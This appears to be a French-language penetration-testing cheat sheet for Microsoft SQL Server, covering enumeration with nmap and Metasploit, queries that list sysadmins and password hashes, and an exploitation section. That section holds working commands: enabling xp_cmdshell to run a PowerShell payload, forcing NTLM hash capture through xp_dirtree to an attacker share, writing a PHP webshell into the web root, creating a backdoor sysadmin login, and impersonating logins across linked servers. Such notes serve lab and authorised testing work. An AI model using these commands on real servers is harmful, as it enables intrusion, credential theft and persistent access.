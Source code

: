 ```yaml
---
public: true 
#Tags: vhost, hashes, lfi, password-spraying, potato
---
```


Port : 1433

## Enumeration

### Sans accès initial


#### nmap
```shell-session
sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 $TARGET_IP
```

#### metasploit
```shell-session
msf6 auxiliary(scanner/mssql/mssql_ping) > set rhosts 10.129.201.248

rhosts => 10.129.201.248


msf6 auxiliary(scanner/mssql/mssql_ping) > run

[*] 10.129.201.248:       - SQL Server information for 10.129.201.248:
[+] 10.129.201.248:       -    ServerName      = SQL-01
[+] 10.129.201.248:       -    InstanceName    = MSSQLSERVER
[+] 10.129.201.248:       -    IsClustered     = No
[+] 10.129.201.248:       -    Version         = 15.0.2000.5
[+] 10.129.201.248:       -    tcp             = 1433
[+] 10.129.201.248:       -    np              = \\SQL-01\pipe\sql\query
[*] 10.129.201.248:       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Avec accès 

Si on dispose d'un accès via un des outils présentés plus bas sur cette page, on pourra utiliser les commandes suivantes pour découvrir l'environnement de base de données accessible.

#### Requêtes utiles

##### Informations générales
```sql
-- Get version
select @@version;
-- Get user
select user_name();
select SYSTEM_USER;
-- List admin users
select name,type_desc,is_disabled FROM master.sys.server_principals WHERE IS_SRVROLEMEMBER ('sysadmin',name) = 1 ORDER BY name;
-- Check if we are sysadmin
SELECT IS_SRVROLEMEMBER('sysadmin'); -- retourne 0 si nous ne sommes pas membre
--
-- List users
select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;

-- List users that current user can impersonate 
--    if found : we need to impersonate each user available and enumerate again (see Exploitation below to see how to impersonate)
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';


-- List Linked servers
SELECT srvname, isremote FROM sysservers WHERE isremote = 0; -- 0 means linked server
EXEC sp_linkedservers
SELECT * FROM sys.servers;

```

Si un serveur lié (Linked Server) est découvert, on pourra tenter d'y accéder, vérifier si nous disposons de privilèges différents sur celui-ci. Voir la partie `Exploitation` plus bas sur cette page.

##### Exploration de l'instance de base de donnée
```sql
-- Get databases
select name from sys.databases;
SELECT name FROM master.dbo.sysdatabases;

-- Use database
USE master;

-- Get table names
SELECT table_name FROM <databaseName>.INFORMATION_SCHEMA.TABLES;
```

## Outils utiles

### Windows

#### sqlcmd

Utilitaire installer avec SQLServer
Il faudra ajouter le mot clé `GO` à chaque requête afin qu'elle soit exécutée.
```shell
# -y 30 -Y 30 augmentent la visibilité des résultat (attention aux performances)
sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30

# ATTENTION : cet utilitaire nécessite la saisie du mot GO à la ligne terminant chaque requête ! (pas besoin de ';' dans cet outil)
```

### Linux

#### sqsh

Equivalent de sqlcmd sous Windows, pour Linux.
Comme sous windows, on ajoutera le mot clé `GO` à chaque requête afin qu'elle soit exécutée.

```bash
# Authentificatino Interne (SQL Server)
sqsh -S $TARGET_IP -U $AD_USER -P $AD_PASSWORD

# Authentification locale ou domaine
sqsh -S $TARGET_IP -U .\\$AD_USER -P $AD_PASSWORD 
```

#### Mssqlclient.py (impacket)

**Attention** : ce client n'accepte pas les requêtes sur plusieurs lignes.

```bash
# Internal Authentication (no fomzin prefix)
mssqlclient.py -p 1433  $USER:$PASS@$TARGET_IP 

# Local workstation authentication 
mssqlclient.py Administrator@10.129.201.248 -windows-auth

# Local workstation account authentication (no need to add WIN-02 to hosts)
mssqlclient.py -p 1433 -windows-auth $AD_DOMAIN$/$AD_USER:"$AD_PASSWORD"@$TARGET_IP

SQL> enable_xp_cmdshell
SQL> xp_cmdshell whoami /priv
```

## Commandes utiles

### Exploitation

#### Exécution de commandes (xp_cmdshell)

```sql
------------------------------------------------------------------------
-- Tentative d activation de xp_cmdshell  (si droits suffisants)
-- Allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;

-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE

--  Execution de commande (after enabling it)
xp_cmdshell 'whoami';
xp_cmdshell 'powershell -e <hoaxshell payload>';
```

#### Capture de Hash

```sql
-- XP_DIRTREE
EXEC master..xp_dirtree '\\10.10.110.17\share\'
```

```sql
-- XP_SUBDIRS
EXEC master..xp_subdirs '\\10.10.110.17\share\'
```

#### Ecriture dans un fichier
```sql
------------------------------------------------------------------------
-- Creation de fichier via OLE Automation Procedures

-- Activation
sp_configure 'show advanced options', 1
RECONFIGURE
sp_configure 'Ole Automation Procedures', 1
RECONFIGURE

-- Création de fichier
DECLARE @OLE INT
DECLARE @FileID INT
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
```

#### Lecture d'un fichier

```sql
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
```

#### Création de compte
```sql
------------------------------------------------------------------------
-- Create user with sysadmin privs
CREATE LOGIN hacker WITH PASSWORD = 'P@ssword123!';
EXEC sp_addsrvrolemember 'hacker', 'sysadmin';
```

#### User Impersonate

Si l'énumération présentée plus haut nous liste des utilisateurs que l'on peut "impersonate" (usurper l'identité), on peut alors utiliser les commandes suivantes :

```sql
-- Exploitation
user master; -- db sur laquelle on est sur d'avoir les droits
EXECUTE AS LOGIN = 'sa';
SELECT SYSTEM_USER;
SELECT IS_SRVROLEMEMBER('sysadmin');
REVERT; -- retourne aux droits précédents
```

### Linked Server
Si on a un serveur lié (voir énumération sur cette page), on peut exécuter des requêtes à distance sur cette machine :

```sql
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
```


There are other methods to get command execution, such as adding [extended stored procedures](https://docs.microsoft.com/en-us/sql/relational-databases/extended-stored-procedures-programming/adding-an-extended-stored-procedure-to-sql-server), [CLR Assemblies](https://docs.microsoft.com/en-us/dotnet/framework/data/adonet/sql/introduction-to-sql-server-clr-integration), [SQL Server Agent Jobs](https://docs.microsoft.com/en-us/sql/ssms/agent/schedule-a-job?view=sql-server-ver15), and [external scripts](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-execute-external-script-transact-sql). However, besides those methods there are also additional functionalities that can be used like the `xp_regwrite` command that is used to elevate privileges by creating new entries in the Windows registry.